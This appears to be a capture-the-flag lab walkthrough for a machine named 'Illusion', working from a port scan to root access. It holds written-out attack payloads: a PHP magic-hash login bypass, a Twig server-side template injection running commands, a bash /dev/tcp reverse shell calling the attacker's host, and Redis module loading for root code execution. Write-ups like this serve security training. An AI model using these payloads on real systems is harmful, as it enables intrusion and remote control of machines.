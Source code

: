 # Illusion

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:22 +08
Warning: 192.168.183.203 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.203
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can start proxying traffic through Burp.&#x20;

### Web Enum --> Magic Hashes

Port 80 presents a corporate web page with a Login:

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

The login page is basic and operates in PHP:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work here. Brute forcing also doesn't work. Since this runs on PHP, we can try some Magic Hashes by submitting this request:

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md" %}

This works because the `Location` header points to `dashboard.php` now.&#x20;

### Orders --> SSTI

The dashboard is simple.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

If we submit any queries, we can see our order name pop up on the top:

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Since this website runs on PHP and the input value is printed out on screen, I wanted to test for SSTI by using `{{7*7}}` as the name of the order, and it works:

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

On Hacktricks, there's a whole section for Twig (PHP), and I tried their payload to run `id`:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works and we have RCE on the machine. Sending this payload gets us a reverse shell:

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'")}}
```

<figure><img src="../../../.gitbook/assets/image (14) (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis Creds --> RCE

Within the user's directory, there was a Redis related file that contained a hash:

```
www-data@illusion:/home/james$ ls
local.txt  redis-openssl-gen-pass.txt
www-data@illusion:/home/james$ cat redis-openssl-gen-pass.txt 
sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
```

Checking the listening ports using `netstat` reveals that port 6379 is listening and is likely Redis:

```
www-data@illusion:/home/james$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

We can port forward this using `chisel`. Afterwards, we can access the Redis database using `redis-cli`. Attempts to run commands fail because we aren't authenticated:

```
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO
NOAUTH Authentication required.
```

In this case, we can try the hash that we found earlier.&#x20;

```
127.0.0.1:6379> AUTH sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.2.6
<TRUNCATED>
```

There was nothing within the database that was interesting, but I did want to know who was running it. A quick `ps -elf` reveals that the `root` user is running it:

```
www-data@illusion:/home/james$ ps -elf |grep redis
5 S root         893       1  0  80   0 - 13071 -      10:21 ?        00:00:00 /usr/local/bin/redis-server 127.0.0.1:6379
0 S www-data    3221    3025  0  80   0 -  1625 pipe_w 10:37 pts/0    00:00:00 grep redis
```

Since `root` is running it and we can login, this means that we can also load any module that we want. This repository has a module that works:

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

Compile and upload the `.so` file to the machine. Then, load it within `redis-cli`:

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell via `system.rev <IP> <PORT>`:

<figure><img src="../../../.gitbook/assets/image (8) (13).png" alt=""><figcaption></figcaption></figure>

Rooted!
